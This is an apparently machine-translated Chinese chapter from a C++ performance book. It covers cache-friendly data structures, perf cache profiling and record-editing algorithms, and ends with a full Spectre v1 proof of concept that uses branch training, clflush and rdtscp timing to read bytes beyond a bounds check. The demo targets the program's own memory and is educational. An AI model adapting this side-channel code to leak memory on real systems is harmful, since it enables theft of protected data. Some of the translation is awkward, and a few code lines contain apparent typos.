这种数据结构以固定数量的块分配内存，通常足够小以至于它们适合 L1 缓存 (通常使用 2 KB 到 16 KB 之间的任何位置)。每个块都用作数组，因此，在每个块内，元素被顺序访问。块本身被组织在一个列表中。如果我们需要增长这个数据结构，我们只需分配另一个块并将其添加到列表中。访问每个块的第一个元素很可能会导致缓存未命中，但是一旦预取检测到顺序访问的模式，就可以有效地访问块中的其余元素。在每个块中的元素数量上进行摊销，可以使随机访问的成本非常小，并且所得的数据结构可以与数组或向量几乎相同地执行。在 STL 中，我们有这样的数据结构: `std::deque` (不幸的是，大多数 STL 版本中的实现不是特别有效，并且对 deque 的顺序访问通常比对相同大小的向量要慢一些)。

另一个更喜欢列表而不是单个或块分配的数组的原因是，列表允许在任何点快速插入，而不仅仅是在末端。如果你需要这个，那么你必须使用一个列表或另一个节点分配的容器。在这种情况下，通常最好的解决方案是不尝试选择适用于所有需求的单个数据结构，而是将数据从一个数据结构迁移到另一个数据结构。例如，如果我们想使用列表来存储数据元素，一次一个同时保持排序顺序，那么要问的一个问题是，我们是否需要始终对顺序进行排序，只有在插入所有元素之后，还是在施工过程中进行了几次但并非一直如此？

如果算法中存在数据访问模式发生变化的点，则在该点处更改数据结构通常是有利的，即使以某些内存复制为代价。例如，我们可以构造一个列表，并在添加最后一个元素后，将其复制到数组中以更快地进行顺序访问 (假设我们不需要添加更多元素)。如果我们可以确定数据的某些部分是完整的，我们可以将该部分转换为一个数组，可能是一个或多个块分配的数组，并将仍然可变的数据保留在列表或树数据结构中。另一方面，如果我们很少需要按排序顺序处理数据，或者需要按多个顺序处理，那么将顺序从存储中分离出来往往是最好的解决方案。数据存储在向量或 deque 中，并通过按所需顺序排序的指针数组将顺序施加在其上。由于所有有序的数据访问现在都是间接的 (通过中间指针)，只有在这种访问很少的情况下，这才是有效的，而且大多数时候，我们可以按照数据存储在数组中的顺序来处理数据。

最重要的是，如果我们大量访问某些数据，我们应该选择一种使特定访问模式最佳的数据结构。如果访问模式随时间变化，则数据结构也应发生变化。另一方面，如果我们不花太多时间访问数据，那么从一种数据排列转换为另一种排列的开销可能是不合理的。但是，在这种情况下，低效的数据访问首先不应成为问题。这就引出了下一个问题: 我们如何找出哪些数据访问效率低下，更普遍地说，哪些数据访问成本高昂？

## 分析内存性能

通常，特定数据结构或数据组织的效率是相当明显的。例如，如果我们有一个包含数组或向量的类，并且这个类的接口只允许一种访问数据的模式，从开始到结束的顺序迭代 (前向迭代器，在 STL 语言中)，然后，我们可以非常确定，无论如何，在内存级别，尽可能有效地访问数据。我们无法确定算法的效率: 例如，对数组中特定元素的线性搜索效率非常低 (当然，每次读取内存都是有效的，但是其中有很多; 我们知道组织数据进行搜索的更好方法)。

仅仅知道哪些数据结构具有内存效率是不够的: 我们还需要知道程序在特定数据集上花费了多少时间。有时，这是不言而喻的，尤其是在良好的封装下。如果我们有一个函数，根据配置文件或时序报告，需要花费大量时间，并且函数内部的代码不是特别繁重的计算，而是移动了大量数据，那么让访问这些数据更高效将提高整体性能的可能性是很大的。

不幸的是，这是一个简单的情况，所以它首先得到优化。然后我们就到了没有单个函数或代码片段在执行时间上脱颖而出的地步，但是程序仍然效率低下。当您没有*热*代码时，通常您有*热*数据: 在整个程序中访问的一个或多个数据结构; 在此数据上花费的累积时间很大，但不会本地化到任何函数或循环。常规分析对我们没有帮助: 它将显示运行时在整个程序中均匀分布，并且优化任何一个代码片段都将产生很少的改进。我们需要的是一种方法来找到在整个程序中访问效率低下的数据，并且它加起来。

仅使用时间测量工具很难收集这些信息。但是，使用利用硬件事件计数器的探查器可以相当容易地收集它。大多数 cpu 可以计算内存访问，更具体地说，可以计算缓存命中和未命中。在本章中，我们再次使用`perf`探查器; 使用它，我们可以测量此命令使用 L1 缓存的有效性:

```cpp
$ perf stat -e \
  cycles,instructions,L1-dcache-load-misses,L1-dcache-loads \
  ./program
```

缓存测量计数器不是默认计数器集的一部分，必须显式指定。可用计数器的确切集合因 CPU 而异，但始终可以通过运行`perf list`命令查看。在我们的示例中，我们在读取数据时测量 L1 缓存未命中。术语**dcache**代表**数据缓存** (发音为*dee-cache* ); cpu 还具有单独的**指令缓存**或**icache** (发音为*ay-cache*)，用于从内存中加载指令。

我们可以使用这个命令行来描述我们的内存基准，以便在随机地址处读取内存。当内存范围较小时 (例如 16 KB)，整个数组都适合 L1 缓存，并且几乎没有缓存未命中:


图 4.12-充分利用 L1 缓存的程序的配置文件

将内存大小增加到 128 MB 意味着缓存未命中非常频繁:


图 4.13-L1 缓存使用不良的程序的配置文件

请注意，`perf stat`收集整个程序的总体值，其中一些内存访问是缓存效率高的，而另一些则不是。一旦我们知道某人在某处处理内存访问不良，我们就可以使用`perf record`和`perf report`获得详细的配置文件，如[*第 2 章*](02.html#_idTextAnchor026)所示，*性能测量* (我们在那里使用了不同的计数器，但是对于我们选择收集的任何计数器，其过程都是相同的)。当然，如果我们的原始时序配置文件未能检测到任何热代码，则缓存配置文件将显示相同。代码中会有很多位置，其中缓存未命中的比例很大。每个位置仅对总执行时间贡献很小的时间，但累加了。现在我们要注意到，许多这些代码位置有一个共同点: 它们操作的内存。例如，如果我们看到有几十个不同的函数，它们之间都占了 15% 的缓存未命中率，但它们都在同一个列表上运行，那么列表就是有问题的数据结构，我们必须以其他方式组织我们的数据。

现在，我们已经了解了如何检测和识别其低效内存访问模式对性能产生负面影响的数据结构，以及哪些替代方案。不幸的是，替代数据结构通常不具有相同的功能或性能: 如果在数据结构的整个生命周期中必须在任意位置插入元素，则不能用向量替换列表。通常，调用低效内存访问的不是数据结构，而是算法本身。在这种情况下，我们可能不得不更改算法。

## 内存性能优化算法

算法的记忆性能是一个经常被忽视的主题。算法最常见的选择是为了它们的**算法性能**或它们执行的操作或步骤的数量。内存优化通常需要一个反直觉的选择: 做更多的工作，甚至做不必要的工作，以提高内存性能。这里的游戏是用一些计算来换取更快的内存操作。内存操作很慢，所以我们的*额外工作的预算*相当大。

更快使用内存的一种方法是减少使用内存。这种方法通常会导致重新计算一些可能已经从内存中存储和检索的值。在最坏的情况下，如果此检索导致随机访问，则读取每个值将花费几纳秒 (在我们的测量中为 7 纳秒)。如果重新计算该值所花费的时间少于该值，并且当转换为 CPU 可以执行的操作数时，7 纳秒是相当长的时间，那么我们最好不要存储这些值。这是空间与内存的传统权衡。

这种优化有一个有趣的变体: 我们尝试在任何给定时间使用更少的内存，而不是简单地使用更少的内存。这里的想法是尝试将当前的工作数据集拟合到其中一个缓存中，例如 L2 缓存，并在移至数据的下一部分之前对其进行尽可能多的工作。根据定义，将新数据集加载到缓存中会导致每个内存地址的缓存丢失。但是最好接受一次缓存未命中，然后在一段时间内有效地对数据进行操作，而不是一次处理所有数据，并在每次我们需要此数据元素时冒缓存未命中的风险。

在本章中，我将向您展示一种更有趣的技术，在该技术中，我们进行更多的内存访问以节省其他一些内存访问。这里的权衡是不同的: 我们希望减少缓慢的随机访问的数量，但我们以增加的快速顺序访问数量来支付。由于顺序内存流比随机访问快一个数量级，因此我们再次拥有可观的*预算*来支付我们为减少缓慢的内存访问而必须做的额外工作。

演示需要一个更详尽的示例。让我们说我们有一个数据记录的集合，例如字符串，并且程序需要对其中一些记录应用一组更改。然后我们得到另一组变化，依此类推。每组都会对某些记录进行更改，而其他记录保持不变。通常，更改确实会更改记录的大小及其内容。在每个集合中更改的记录子集是完全随机且不可预测的。这是一个图表，仅显示:



图 4.14-记录编辑问题。在每个更改集中，* 标记的记录被编辑，其余保持不变

解决此问题的最直接方法是将记录存储在自己的内存分配中，并以某种数据结构组织它们，从而允许每个记录被新记录替换 (旧记录被释放，因为新记录通常具有不同的大小)。数据结构可以是树 (在 C 中设置) 或列表。为了使示例更具体，让我们使用字符串进行记录。我们还必须更具体地说明更改集的指定方式。让我们说，它没有指向需要更改的特定记录; 相反，对于任何记录，我们可以说它是否需要更改。为字符串设置这种更改的最简单示例是一组查找和替换模式。现在我们可以勾勒出我们的实现:

```cpp
 std::list<std::string> data;
… initialize the records …
for (auto it = data.begin(), it0 = --data.end(), it1 = it;
     true; it = it1) {
    it1 = it;
    ++ it1;
    const bool done = it == it0;
    if (must_change(*it)) {
        std::string new_str = change(*it);
        data.insert(it, new_str);
        data.erase(it);
    }
    if (done) break;
}
```

在每个更改集合中，我们迭代整个记录集合，确定记录是否需要更改，如果需要，这样做 (更改集隐藏在函数`must_change()`和`change()`中)。代码仅显示一个更改集，因此我们根据需要多次运行此循环。

这个算法的弱点是我们使用的是一个列表，更糟糕的是，我们不断移动内存中的字符串。每次访问新字符串都是缓存未命中。现在，如果字符串很长，那么初始缓存未命中无关紧要，其余字符串使用快速顺序访问读取。结果类似于我们之前看到的分块数组，并且内存性能很好。但是，如果字符串很短，则可以在单个加载操作中读取整个字符串，并且每次加载都在随机地址处完成。

我们的整个算法除了在随机地址加载和存储之外什么都不做。正如我们所看到的，这几乎是访问内存的最糟糕的方式。但是我们还能做什么呢？我们不能将字符串存储在一个巨大的数组中: 如果数组中间的一个字符串需要增长，那么内存将从哪里来？在该字符串之后是下一个字符串，因此没有增长的空间。

出现替代方案需要范式转变。按照指定的字面上执行所需操作的算法也对内存组织施加了限制: 更改记录需要将其移动到内存中，并且，只要我们希望能够更改任何一条记录而不影响其他任何内容，我们就无法避免记录在内存中的随机分布。我们必须从侧面解决问题，并从限制开始。我们真的想按顺序访问所有记录。在这种约束下，我们能做什么？我们可以很快阅读所有记录。我们可以决定是否必须更改记录; 这一步和以前一样。但是，如果记录必须增长，我们该怎么办？我们必须将其移至其他地方，没有空间可以种植。但是我们同意记录将依次分配。然后，上一条记录和下一条记录也必须移动，因此它们在我们的新记录之前和之后都保持存储状态。这是替代算法的关键: 所有记录随每个更改集一起移动，无论是否更改。现在，我们可以将所有记录存储在一个巨大的连续缓冲区中 (假设我们知道总记录大小的上限):


图 4.15-按顺序处理所有记录

该算法需要在复制过程中分配第二个大小相等的缓冲区，因此峰值内存消耗是数据大小的两倍:

```cpp
char* buffer = get_huge_buffer();
… initialize N records …
char* new_buffer = get_huge_buffer();
const char* s = buffer;
char* s1 = new_buffer;
for (size_t i = 0; i < N; ++ i) {
    if (must_change(s)) {
        s1 = change(s, s1);
    } else {
        const size_t ls = strlen(s) + 1;
        memcpy(s1, s, ls);
        s1 += ls;
    }
    s += ls;
}
release(buffer);
buffer = new_buffer;
```

在每个更改集中，我们将每个字符串 (记录) 从旧缓冲区复制到新缓冲区。如果需要更改记录，则将新版本写入新缓冲区。否则干脆复制原作。每个新的更改集，我们将创建一个新的缓冲区，并在操作结束时释放旧的缓冲区 (一个实际的实现将避免重复调用来分配和释放内存，并简单地交换两个缓冲区)。

这个实现的明显缺点是使用巨大的缓冲区: 我们必须悲观地选择它的大小，为我们可能遇到的最大可能的记录分配足够的内存。峰值内存大小的加倍也很重要。我们可以通过将这种方法与前面看到的**可生长数组**数据结构相结合来解决这个问题。我们可以将记录存储在一系列固定大小的块中，而不是分配一个连续的缓冲区:


图 4.16-使用块缓冲区编辑记录

为了简化图，我们绘制了相同大小的所有记录，但是这个限制不是必需的: 记录可以跨越多个块 (我们将块视为连续的字节序列，仅此而已)。编辑记录时，我们需要为编辑的记录分配一个新的块。一旦编辑完成，包含旧记录的块 (或多个块) 就可以被释放; 我们不必等待整个缓冲区被读取。但是我们可以做得更好: 而不是将最近释放的块返回到操作系统，我们可以将其放在空块列表中。我们即将编辑下一个记录，我们将需要一个空的新块作为结果。我们只是碰巧有一个: 它是曾经包含我们编辑的最后一条记录的块; 它位于我们最近发布的块列表的头部，最重要的是，该块是我们访问的最后一个内存，所以它可能仍在缓存中!

乍一看，这个算法似乎是一个非常糟糕的主意: 我们将每次复制所有记录。但是让我们更仔细地分析这两种算法。首先，读取量是相同的: 两种算法都必须读取每个字符串，以确定是否必须更改它。第二种算法在性能上已经领先: 它在一次连续扫描中读取所有数据，而第一种算法在内存中跳跃。如果对字符串进行了编辑，则两种算法都必须将新算法写入新的内存区域。第二种算法由于其顺序内存访问模式 (此外，它不需要为每个字符串进行内存分配) 而再次出现。当字符串没有被编辑时，权衡就来了。第一个算法什么也不做; 第二个复制。

通过这种分析，我们可以定义每个算法的好情况和坏情况。如果字符串短，则顺序访问算法将获胜，并且在每个更改集中更改了很大一部分。如果字符串很长或很少更改，则随机访问算法将获胜。但是，确定什么是*长*和多少是*大分数*的唯一方法是测量。

我们必须衡量性能的事实并不一定意味着您必须始终编写完整程序的两个版本。通常，我们可以在一个小的*模拟*程序中模拟行为的特定方面，该程序对简化的数据进行操作。我们只需要知道记录的大致大小，有多少被改变，我们需要对单个记录进行改变的代码，这样我们就可以测量内存访问对性能的影响 (如果每个改变在计算上非常昂贵，读或写记录需要多长时间都没关系)。通过这种模拟或原型实现，我们可以进行近似测量并做出正确的设计决策。

那么，在现实生活中，顺序字符串复制算法值得吗？我们已经完成了使用正则表达式模式编辑中等长度字符串 (128 字节) 的测试。如果在每个更改集中编辑所有字符串的 99%，则顺序算法大约比随机算法快四倍 (结果将在某种程度上特定于一台机器，因此必须在与您期望使用的硬件类似的硬件上进行测量)。如果编辑所有记录的 50%，顺序访问仍然更快，但只有大约 12% (这可能是在不同型号的 CPU 和内存类型之间的变化，所以让我们称之为平局)。更令人惊讶的结果是，如果仅更改所有记录的 1%，则这两种算法几乎与速度息息相关: 不进行随机读取所节省的时间支付了几乎完全不必要的复制的成本。

对于较长的字符串，如果更改了很少的字符串，则随机访问算法会轻松获胜; 对于非常长的字符串，即使更改了所有字符串，它也是平局: 两种算法都按顺序读取和写入所有字符串 (对长字符串开头的随机访问会增加可忽略的时间)。

现在，我们拥有了为我们的应用确定更好的算法所需的一切。这是性能设计经常采用的方式: 我们确定性能问题的根源，我们想出一种消除问题的方法，以做其他事情为代价，然后我们必须破解一个原型，让我们衡量这个聪明的把戏是否真的有回报。

在我们结束本章之前，我想向您展示一个完全不同的 “使用” 缓存和其他硬件提供的性能改进。

# 机器里的幽灵

在最后两章中，我们已经了解了从初始数据到最终结果的路径在现代计算机上的复杂性。有时机器会精确地执行代码规定的操作: 从内存中读取数据，按写入方式进行计算，将结果保存回内存。然而，它往往会经历一些我们甚至不知道的奇怪的中间状态。*从内存中读取*并不总是从内存中读取: CPU 可能会决定执行其他内容，而不是按照写入的方式执行指令，因为它认为您将需要它，依此类推。我们试图通过直接的性能测量来确认所有这些东西确实存在。根据需要，这些测量总是间接的: 硬件优化和代码转换的目的是提供正确的结果，毕竟，只有更快。

在本节中，我们将展示本应保持隐藏的硬件操作的更多可观察证据。这是一个很大的问题: 它的发现 2018 年引发了短暂的网络安全恐慌，以及来自硬件和软件供应商的大量补丁。当然，我们谈论的是幽灵和崩溃系列的安全漏洞。

## 什么是幽灵？

在本节中，我们将详细演示 Spectre attack 的早期版本，即 Spectre version 1。这不是一本关于网络安全的书; 然而，幽灵攻击是通过仔细测量程序的性能来进行的，它依赖于我们在本书中研究的两种性能增强的硬件技术: 推测性执行和内存缓存。这也使攻击在致力于软件性能的工作中具有教育意义。

Spectre 背后的想法如下。前面我们已经了解到，当 CPU 遇到条件跳转指令时，它会尝试预测结果，并在预测正确的假设下继续执行指令。这被称为推测性执行，如果没有它，我们将不会在任何实际有用的代码中使用流水线。推测性执行的棘手部分是错误处理: 错误经常发生在推测性执行的代码中，但是在预测被证明是正确的之前，这些错误必须保持不可见。最明显的例子是空指针取消引用: 如果处理器预测一个指针不为 null 并执行相应的分支，则每次错误预测该分支时都会出现致命错误，而该指针实际上是 null。由于正确编写了代码以避免取消引用空指针，因此它也必须正确执行: 潜在错误必须保持潜在。另一个常见的推测错误是数组边界读取或写入:

```cpp
int a[N];
   …
if (i < N) a[i] = …
```

如果索引`i`通常小于数组大小`N`，则将成为预测，并且每次都将推测地执行`a[i]`的读取。如果预测是错误的，会发生什么？结果被丢弃了，所以没有造成伤害，对吗？不是那么快: 内存位置`a[i]`不在原始数组中。它甚至不必是数组之后的元素。索引可以任意大，因此索引的内存位置可以属于不同的程序，甚至属于操作系统。我们没有读取此内存的访问权限。操作系统确实强制执行访问控制，因此通常尝试从另一个程序读取一些内存会触发错误。但是这次，我们不确定错误是真实的: 执行仍处于推测阶段，分支预测可能是错误的。在我们知道预测是否正确之前，该错误仍然是*推测错误*。到目前为止，这里没有什么新鲜事; 我们早些时候已经看到了这一切。

但是，潜在的非法读取操作有一个微妙的副作用: 值`a[i]`被加载到缓存中。下次我们尝试从同一位置读取时，读取速度会更快。无论读取是真实的还是推测的，这都是正确的: 推测执行期间的内存操作就像*真实的*一样。从主存储器读取需要更长的时间，而从缓存读取则更快。内存负载的速度是我们可以观察和测量的。这不是该程序的预期结果，而是可衡量的副作用。实际上，程序通过其预期输出以外的方式具有附加的输出机制; 这被称为**侧通道**。

Spectre 攻击利用了此侧面通道:



图 4.17-设置 Spectre 攻击

它使用在推测性执行期间获得的位置`a[i]`处的值来索引到另一个数组`t`中。完成此操作后，一个数组元素`t[a[i]]`将被加载到缓存中。数组`t`的其余部分从未被访问过，并且仍在内存中。请注意，与元素`a[i]`不同，它实际上不是数组`a`的元素，而是内存位置的一些值，我们无法通过任何合法手段获得，数组`t`完全在我们的控制范围内。对于攻击的成功至关重要的是，当我们读取值`a[i]`，然后读取值`t[a[i]]`时，分支保持足够长的时间无法预测。否则，一旦 CPU 检测到分支被错误预测并且实际上不需要这些内存访问，则推测性执行将结束。在进行推测性执行之后，最终检测到错误预测，并将推测性操作的所有后果回滚，包括可能的内存访问错误。除了一个以外的所有后果，即: 数组`t[a[i]]`的值仍在缓存中。它本身没有什么问题: 访问这个值是合法的，我们可以随时这样做，在任何情况下，硬件总是在缓存中移动数据; 它永远不会改变结果，也不会让你访问任何你不应该访问的内存。

但是，这一系列事件有一个可观察到的后效: 数组`t`的一个元素比其余的要快得多:



图 4.18-Spectre 攻击后的内存和缓存状态

如果我们可以测量读取数组`t`的每个元素需要多长时间，我们就可以找出由值`a[i]`索引的元素; 这是我们不应该知道的秘密值!

## 以幽灵为例

幽灵攻击需要几个部分放在一起; 我们将一个接一个地浏览它们，因为总的来说，这是一本书的一个很大的编码示例 (这个特定的实现是 Chandler Carruth 在 CPPCon 2018 年上给出的示例的变体)。

我们需要的一个组件是准确的计时器。我们可以尝试使用 C 高解析度计时器:

```cpp
using std::chrono::duration_cast;
using std::chrono::nanoseconds;
using std::chrono::high_resolution_clock;
long get_time() {
    return duration_cast< nanoseconds>(
        high_resolution_clock::now().time_since_epoch()
        ).count();
}
```

开销和此计时器的分辨率取决于实现; 该标准不需要任何特定的性能保证。在 x86 CPU 上，我们可以尝试使用**时间戳计数器** (**TSC**)，它是一个硬件计数器，用于统计过去某个点以来的循环次数。使用周期计数作为计时器通常会导致更嘈杂的测量，但计时器本身更快，这在这里很重要，考虑到我们将尝试测量从内存加载单个值需要多长时间。GCC，Clang 和许多其他编译器具有用于访问此计数器的内置功能:

```cpp
long get_time() {
    unsigned int i;
    return __rdtscp(&i);  // GCC/Clang intrinsic function
}
```

无论哪种方式，我们现在都有一个快速计时器。下一步是时序阵列。实际上，它并不像我们在图中暗示的整数数组那样简单: 整数在内存中彼此太近; 将一个加载到缓存中会影响访问其邻居所需的时间。我们需要将值隔开:

```cpp
constexpr const size_t num_val = 256;
struct timing_element { char s[1024]; };
static timing_element timing_array[num_val];
::memset(timing_array, 1, sizeof(timing_array));
```

在这里，我们将仅使用`timing_element`的第一个字节; 其余的在那里强制执行内存中的距离。1024 字节的距离没有什么神奇的; 它只需要足够大的*，但这对你来说是什么，你必须通过实验确定: 如果距离太小，攻击变得不可靠。在时序阵列中存在 256 元件。这是因为我们要一次读取一个字节的*秘密存储器*。所以，在我们前面的例子中，数组`a[i]`将是一个字符数组 (即使真正的数据类型不是`char`，我们仍然可以逐字节读取它)。严格来说，初始化时序数组不是必需的; 没有什么取决于此数组的内容。*

我们现在已经准备好查看代码的*心脏*。下面是一个简化的实现: 它缺少一些必要的扭曲，我们将在后面添加，但是通过首先关注关键部分来解释代码会更容易。

我们需要我们要读取越界的数组:

```cpp
size_t size = …;
const char* data = …;
size_t evil_index = …;
```

这里`size`是`data`的实际大小，`evil_index`大于`size`: 它是正确数据数组之外的秘密值的索引。

接下来，我们要训练*分支预测器: 我们需要它来了解更可能的分支是访问数组的分支。为此，我们生成一个有效的索引，始终指向数组 (我们将在一瞬间看到如何)。这是我们的`ok_index`:*

```cpp
const size_t ok_index = …; // Less than size
constexpr const size_t n_read = 100;
for (size_t i_read = 0; i_read < n_read; ++ i_read) {
    const size_t i = (i_read & 0xf) ? ok_index : evil_index;
    if (i < size) {
        access_memory(timing_array + data[i]);
    }
}
```

然后我们在位置`timing_array + data[i]`读取内存，其中`i`要么是`ok`索引，要么是`evil`索引，但前者比后者更频繁 (我们尝试在 16 次尝试中只读取一次秘密数据，保持分支预测器训练成功读取)。请注意，实际的内存访问受到有效边界检查的保护; 这一点至关重要: 我们从未实际读取过我们不应该读取的内存; 此代码 100% 正确。

从概念上讲，访问内存的功能只是内存读取。在实践中，我们必须与聪明的优化编译器竞争，这将试图消除冗余或不必要的内存操作。这是一种方法，它使用内在汇编 (读取指令实际上是由编译器生成的，因为位置`*p`被标记为输入):

```cpp
void access_memory(const void* p) {
    __asm__ __volatile__ ( "" : : 
        "r"(*static_cast<const uint8_t*>(p)) : "memory" );
}
```

我们多次运行预测-错误预测循环 (在我们的示例中`100`)。现在我们期望一个元素的`timing_array`在缓存中，所以我们只需要测量访问每个元素需要多长时间。这里的一个警告是，顺序访问整个数组将不起作用: 预取将快速启动并将我们将要访问的元素移动到缓存中。大部分时间都非常有效，但不是我们现在需要的。我们必须以随机顺序访问数组的元素，并存储访问内存访问延迟数组中每个元素所花费的时间:

```cpp
std::array<long, num_val> latencies = {};
for (size_t i = 0; i < num_val; ++ i) {
    const size_t i_rand = (i*167 + 13) & 0xff;  // Randomized
    const timing_element* const p = timing_array + i_rand;
    const long t0 = get_time();
    access_memory(p);
    latencies[i_rand] = get_time() - t0;
}
```

你可能会想，为什么不简单地寻找一个快速访问呢？两个原因: 首先，我们不知道*快速*对于任何特定的硬件到底意味着什么; 我们只知道它比*正常*更快。所以我们也必须测量什么是*正常*。其次，任何单独的测量都不会 100% 可靠: 有时，计算被另一个进程或操作系统中断; 整个操作序列的确切时间取决于 CPU 当时还在做什么，依此类推。这个过程很有可能会在秘密内存位置显示值，但不能 100% 保证，所以我们必须尝试几次并平均结果。

在此之前，我们看到的代码中有几个遗漏。首先，它假设时序数组值已经不在缓存中。即使我们开始的时候是真的，也不会是在我们成功地窥视了第一个秘密字节之后。我们必须清除的时间数组从缓存之前，我们开始攻击下一个字节，我们想读:

```cpp
for (size_t i = 0; i < num_val; ++ i) {
    _mm_clflush(timing_array + i);    // Un-cache the array
}
```

同样，我们使用 GCC/Clang 内置函数; 大多数编译器都有类似的东西，但是函数名称可能会有所不同。

其次，只有在推测性执行持续足够长的时间以使两个内存访问 (数据和定时阵列) 发生的情况下，攻击才起作用，然后 CPU 才确定应该采用哪个分支。实际上，编写的代码在推测性执行上下文中没有花费足够的时间，因此我们必须使计算正确的分支变得更加困难。有不止一种方法可以做到这一点; 在这里，我们使分支条件依赖于从内存中读取一些值。我们将把数组大小复制到另一个访问速度较慢的变量中:

```cpp
std::unique_ptr<size_t> data_size(new size_t(size));
```

现在，我们必须确保在需要读取它并使用存储在`*data_size`中的数组大小值而不是原始`size`值之前，该值已从缓存中逐出:

```cpp
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++ z) {}  // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
    access_memory(timing_array + data[i]);
}
```

在前面的代码中还有一个神奇的*延迟*，一些无用的计算将缓存刷新与对数据大小的访问分开 (它击败了可能的指令重新排序，这将使 CPU 更快地访问数组大小)。现在条件`i < *data_size`需要一些时间来计算: CPU 需要从内存中读取值，然后才能知道结果。分支是根据更可能的结果来预测的，这是一个有效的索引，因此可以推测地访问数组。

## 幽灵，释放

最后一步是将所有内容放在一起，并多次运行该过程以累积统计上的可靠的测量结果 (单个指令的定时测量结果非常嘈杂，因为计时器本身需要与我们尝试测量的时间一样长)。

以下函数攻击数据数组之外的单个字节:

```cpp
char spectre_attack(const char* data, 
                    size_t size, size_t evil_index) {
  constexpr const size_t num_val = 256;
  struct timing_element { char s[1024]; };
  static timing_element timing_array[num_val];
  ::memset(timing_array, 1, sizeof(timing_array));
  std::array<long, num_val> latencies = {};
  std::array<int, num_val> scores = {};
  size_t i1 = 0, i2 = 0;      // Two highest scores
  std::unique_ptr<size_t> data_size(new size_t(size));
  constexpr const size_t n_iter = 1000;
  for (size_t i_iter = 0; i_iter < n_iter; ++ i_iter) {
    for (size_t i = 0; i < num_val; ++ i) {
      _mm_clflush(timing_array + i);  // Un-cache the array
    }
    const size_t ok_index = i_iter % size;
    constexpr const size_t n_read = 100;
    for (size_t i_read = 0; i_read < n_read; ++ i_read) {
      _mm_clflush(&*data_size);
      for (volatile int z = 0; z < 1000; ++ z) {}  // Delay
      const size_t i = (i_read & 0xf) ? ok_index : 
        evil_index;
      if (i < *data_size) {
        access_memory(timing_array + data[i]);
      }
    }
    for (size_t i = 0; i < num_val; ++ i) {
      const size_t i_rand = (i*167 + 13) & 0xff;
       // Randomized
      const timing_element* const p = timing_array + 
        i_rand;
      const long t0 = get_time();
      access_memory(p);
      latencies[i_rand] = get_time() - t0;
    }
    score_latencies(latencies, scores, ok_index);
    std::tie(i1, i2) = best_scores(scores);
    constexpr const int threshold1 = 2, threshold2 = 100;
    if (scores[i1] > 
       scores[i2]*threshold1 + threshold2) return i1;
  }
  return i1;
}
```

对于时序数组的每个元素，我们将计算一个分数，即这个元素是访问最快的元素的次数。我们还跟踪第二快的元素，它应该只是常规的，缓慢访问的数组元素之一。我们一直在做很多次迭代: 理想情况下，直到我们得到结果，但是，在实践中，我们必须在某个时候放弃。

一旦在最佳分数和第二最佳分数之间打开足够大的差距，我们就知道我们已经可靠地检测到了时序数组的*快速*元素，这是由*秘密*字节的值索引的 (如果我们达到最大迭代次数而没有得到可靠的答案，攻击已经失败，尽管我们可以尝试使用到目前为止的最佳猜测)。

我们有两个效用函数来计算延迟的平均得分并找到两个最佳得分; 只要它们给出正确的结果，它们就可以以任何方式实现。第一个函数计算平均延迟，并增加延迟稍低于平均的定时元素的分数 (*的阈值有点*必须通过实验调整，但不是很敏感)。请注意，我们期望一个数组元素的访问速度明显更快，因此我们可以在计算平均延迟时跳过它 (理想情况下，一个元素的延迟比其余元素低得多，其余元素都相同):

```cpp
template <typename T> 
double average(const T& a, size_t skip_index) {
    double res = 0;
    for (size_t i = 0; i < a.size(); ++ i) {
        if (1 != skip_index) res += a[i];
    }
    return res/a.size();
}
template <typename L, typename S> 
void score_latencies(const L& latencies, S& scores, 
                     size_t ok_index) {
  const double average_latency = 
    average(latencies, ok_index);
  constexpr const double latency_threshold = 0.5;
  for (size_t i = 0; i < latencies.size(); ++ i) {
    if (ok_index != 1 && latencies[i] <
        average_latency*latency_threshold) ++ scores[i];
  }
}
```

第二个函数只是找到数组中的两个最佳分数:

```cpp
template<typename S> 
std::pair<size_t, size_t> best_scores(const S& scores) {
  size_t i1 = -1, i2 = -1;
  for (size_t i = 0; i < scores.size(); ++ i) {
    if (scores[i] > scores[i1]) {
      i2 = i1;
      i1 = i;
    } else 
      if (i != i1 && scores[i] > scores[i2]) {
          i2 = i;
      }
    }
    return { i1, i2 };
}
```

现在，我们有一个函数，它返回指定数组之外的单个字节的值，而无需直接读取该字节。我们已经准备好使用它来访问一些秘密数据了!为了演示，我们将分配一个非常大的数组，但是通过指定一个小值作为数组大小来指定其中的大部分*禁忌*。实际上，这是您今天可以证明这种攻击的唯一方法: 自从发现以来，大多数计算机都已针对 Spectre 漏洞进行了修补，因此，除非您拥有隐藏在洞穴中的机器，并且几年没有更新，攻击不会对您实际上不允许访问的任何内存起作用。修补程序不会阻止您对允许访问的任何数据使用 Spectre，但是您必须检查代码并证明它确实确实返回了值，而无需直接访问内存。这就是我们要做的: 我们的`spectre_attack`函数不会读取指定大小的数据数组之外的任何内存，因此我们可以创建一个数组，其大小是指定的两倍，并在上半部分隐藏一条秘密消息:

```cpp
int main() {
    constexpr const size_t size = 4096;
    char* const data = new char[2*size];
    strcpy(data, "Innocuous data");
    strcpy(data + size, "Top-secret information");
    for (size_t i = 0; i < size; ++ i) {
        const char c =
            spectre_attack(data, strlen(data) + 1, size + 
                i);
        std::cout << c << std::flush;
        if (!c) break;
    }
    std::cout << std::endl;
    delete [] data;
}
```

再次检查我们给`spectre_attack`函数的值: 数组*大小*只是数组中存储的字符串的长度; 除了推测性执行上下文之外，代码不会访问其他内存。所有内存访问都由正确的绑定检查保护。然而，这个程序一个字节地揭示了第二个字符串的内容，这个字符串永远不会被直接读取。

最后，我们使用推测性执行上下文来查看不允许访问的内存。由于访问此内存的分支条件正确，因此无效访问错误仍然是*潜在错误*; 它实际上从未发生过。错误预测分支的所有结果都被撤消，除了一个: 访问的值保留在缓存中，因此下一次访问相同值的速度更快。通过仔细测量内存访问时间，我们可以弄清楚该值是多少!当我们对性能而不是黑客感兴趣时，为什么要这样做？主要是为了确认处理器和内存确实按照我们描述的方式运行: 推测性执行确实发生了，并且缓存确实起作用并使数据访问更快。

# 总结

在本章中，我们了解了记忆系统是如何工作的: 总之，慢慢地。CPU 和内存的性能差异造成了内存间隙，其中快速 CPU 被内存的低性能所阻碍。但是内存间隙也包含了潜在解决方案的种子: 我们可以用许多 CPU 操作来访问一次内存。

我们进一步了解到，内存系统非常复杂且层次分明，并且它没有单一的速度。如果你最终处于最坏的情况下，这可能会严重损害你的程序的性能。但同样，诀窍是将其视为机会而不是负担: 优化内存访问的收益可能如此之大，以至于它们比支付开销更多。

